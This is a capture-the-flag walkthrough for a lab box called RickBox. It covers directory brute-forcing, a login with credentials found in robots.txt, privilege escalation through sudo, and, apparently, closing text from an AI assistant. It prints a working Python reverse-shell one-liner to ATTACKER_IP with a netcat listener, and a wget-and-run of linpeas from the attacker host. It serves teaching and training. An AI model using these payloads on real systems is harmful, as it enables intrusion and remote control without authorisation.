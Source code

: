 # RickBox — CTF Walkthrough

This walkthrough documents the steps I took to solve the RickBox CTF in a clear, chronological, and reproducible way. The goal is to show the discovery, artifacts, commands used, and privilege escalation path in a readable format.

> **Disclaimer:** For educational purposes only. Do not scan, exploit, or access systems without explicit authorization.

---

## 1. Target Overview
- Target IP: `10.10.31.65` (example)
- Open ports discovered: `22` (SSH), `80` (HTTP)

---

## 2. Enumeration
1. **Checked robots.txt**
   - Accessed `http://10.10.31.65/robots.txt` and found a random text: **`Wubbalubbadubdub`** — noted it.
2. **Username observed**
   - A username visible on the web page: **`R1ckRul3s`** — saved to notes.
3. **Directory brute-force (gobuster)**
   - Command used as an example:
     ```bash
     gobuster dir -u http://10.10.31.65:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
     ```
   - Result: `login.php` was discovered.

---

## 3. Web Login and Initial Access
1. Visited `login.php` and tried credentials derived from earlier findings: username `R1ckRul3s` and password `Wubbalubbadubdub` (from `robots.txt`). Login succeeded.
2. After logging in, the web interface provided a limited command execution box. Most commands were restricted, but **Python** execution was allowed — this became the pivot for further access.

---

## 4. Getting a Reverse Shell
1. Used a Python reverse-shell payload (PentestMonkey style). Example workflow:
   ```bash
   # On attacker machine: start a netcat listener
   nc -lvnp 4444

   # On target (single-line payload):
   python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
   ```
2. The listener caught a connection and gave an initial shell.

---

## 5. Stabilizing the Shell (PTY)
To improve interactivity, the following steps were executed:
```bash
# Spawn a proper tty (on the target shell)
python -c 'import pty; pty.spawn("/bin/bash")'

# Put the session into foreground on attacker machine after Ctrl+Z
stty raw -echo; fg

# Set TERM environment variable (on target shell)
export TERM=xterm
```
This made the shell behave better with interactive programs.

---

## 6. Capturing the First Flags / Ingredients
- First ingredient found: **Mr. Meeseek hair** (location not exhaustively listed here).
- Second ingredient: **1 jerry tear** — found in `/home/rick`.

> Note: When publishing to GitHub, you may omit exact sensitive files or full contents; listing file names and locations is usually enough.

---

## 7. Local Enumeration and Privilege Escalation
1. Planned to run `linpeas` to find privilege escalation vectors. To transfer `linpeas.sh` to the target, an HTTP server was started on the attacker machine:
   ```bash
   # On attacker:
   python3 -m http.server 8000
   # or
   python -m SimpleHTTPServer 8000
   ```
2. On the target, moved to `/dev/shm` and downloaded `linpeas.sh` using `wget`:
   ```bash
   cd /dev/shm
   wget http://ATTACKER_IP:8000/linpeas.sh
   chmod +x linpeas.sh
   ./linpeas.sh
   ```
3. `linpeas` indicated a misconfiguration that allowed escalating to root without a password. I verified `sudo -l` and used `sudo bash` (or `sudo -i`) to obtain a root shell:
   ```bash
   sudo -l
   sudo bash
   ```
4. As root, I inspected `/root` and found the third ingredient: **fleeb juice**.

---

## 8. Cleanup / Notes
- I noted file locations and artifacts in my local notes.
- When preparing a public report, avoid publishing real IP addresses, credentials, or full exploit payloads — use placeholder values like `ATTACKER_IP` and `TARGET_IP`.
- Consider cleaning up tools and temporary files on the target in a real authorized engagement.

---

## 9. Tips & Good Practices
- Save `gobuster` output to a file: `gobuster ... -o gobuster_output.txt`.
- Always check common files: `robots.txt`, `.git/`, `backup`, `config.php`, etc.
- After getting a shell, run basic recon commands first: `id`, `whoami`, `hostname`, `uname -a`, `ps aux`.
- `linpeas` and similar scripts are helpful for quick guidance, but always manually verify findings.

---

## 10. Example Git Commit Message
```
feat: add RickBox CTF walkthrough - initial report

- discovery, web login, reverse shell, pty stabilization
- linpeas-based privilege escalation
- found ingredients: Mr. Meeseek hair, 1 jerry tear, fleeb juice
```

---

If you want, I can:
- produce a ready-to-commit `README.md` file,
- remove placeholder values and add a short `.gitignore`,
- or expand any section with more commands and screenshots.
